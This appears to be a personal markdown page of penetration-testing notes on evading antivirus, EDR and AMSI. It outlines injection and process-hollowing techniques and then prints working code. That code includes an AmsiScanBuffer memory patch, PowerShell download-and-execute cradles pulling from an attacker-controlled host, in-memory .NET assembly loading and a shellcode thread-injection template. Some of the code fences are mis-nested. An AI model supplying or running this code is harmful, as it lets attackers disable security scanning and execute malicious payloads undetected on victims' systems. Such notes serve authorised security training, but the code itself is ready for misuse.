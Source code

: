 ```yaml
---
layout: blank
pagetitle: Antivirus Evasion
---
```


## EDRs
- 7 general components:
    - File Engine
    - Memory Engine
    - Network Engine
    - Disassembler
    - Emulator/Sandbox
    - Browser Plugin
    - Machine Learning Engine
- Detection methods:
    - Signature
        - Hash the malware. If it matches, it's a virus
    - Heuristic
        - Achieved by stepping through instruction set of a binary file and searching for patterns
    - Behavioral
        - Execute the file in an emulated environment and watching for suspicious actions
    - Machine Learning

## Bypassing Detection

**On-disk Evasion**
- Obfuscators can be marginally effective
- _Crypter_ cryptographically alters code and only decrypts in memory
    - Encryption is one of the most effective AV evasion techniques
- Anti-reversing, Anti-debugging, VM detection
- Software protectors like _Anti-copy_
- _The Enigma Protector_ can successfully bypass antiviruses 

**In-Memory Evasion**
- Injecting into the memory of another process
    - Use OpenProcess to obtain a valid HANDLE
    - Use VirtualAllocEx to allocate memory in the context of the process with that HANDLE
    - After memory allocated, copy the malicious payload to the new allocate dmemory
- DLL Injection
    - Loads a malicious DLL from disk using LoadLibrary API
        - LoadLibrary must load DLL from disk
    - Reflective DLL injection
        - Loads a DLL stored by attacker into process memory
- Process Hollowing
    - Launch non-malicious process in suspended state
    - Remove process image and replace with malicious executable image
    - Resume process
- Inline hooking
    - Modify memory to introduce a hook into malicious code, returning back to original point after execution

## Evasion in Practice
- Use AntiScan.me to test malware if target AV vendor is unknown, which doesn't submit samples to third-parties
- DISABLE AUTOMATIC SAMPLE SUBMISSION TO TEST ON DEFENDER
- **Thread Injection**
    - Powershell scripts can be really difficult to fingerprint, so changing things like variable names can actually help
        - If running scripts is disabled, use `-ExecutionPolicy Bypass` flag or `Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser`
        - LMFAO
    - Example in Offsec:
        - Used a well-known memory injection PowerShell script, using msfvenom shellcode as the payload
        - Changed variable names and bypassed Avira antivirus
- **Automating AV evasion**
    - _Shellter_ is a popular shellcode injection tool capable of bypassing antivirus software
        - `sudo apt install shellter`
        - Best to inject into a non-well known process
        - Can use Meterpreter payloads
- DLL injection without touching disk
    - Share the DLL remotely with `sudo impacket-smbserver share ./`

## AMSI
- [Anti-Malware Scanning Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
- Can be bypassed using a number of tricks, but the scripts are all recognized by AMSI
    - Techniques here: [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
    - Thus, we'll need to find the trigger and change the signature with variable renaming, function replacement, or encoding at runtime
        - Can also use ISESteroids or [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
    - [amsi.fail](https://amsi.fail/) - Great site for generating obfuscated powershell scripts that break/disable AMSI for current process
    - However, this won't bypass AMSI at the .net level - [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/]https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
        - Thus, we also need the following script to bypass AMSI at the .net level (run with `(new-object system.net.webclient).downloadstring('http://{kali_ip:port}/amsi_rmouse.txt')|IEX`)
            - This loads and executes the script directly in memory

```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- We now have the ability to run anything we'd like, as long as it doesn't touch disk, which can be done like so:

```
$data=(New-Object System.Net.WebClient).DownloadData('http://{kali_IP:port}/{exe_binary}');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[{binary_name}.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()

## Thread Injection
- Operates within the process it's being executed from
- Rename the variables to bypass string detection

```

- If instead of dealing with executables we'd just like to use powershell, we can use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
    - `iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1 -o psp.ps1`
    - Insanely useful powershell script that has C# executables bundled into it as compiled base64 binaries
    - Run with `iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')` and `PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`, for example

# Import VirtualAlloc to allocate memory

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThread to create execution threads
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset to write arbitrary data to allocated memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```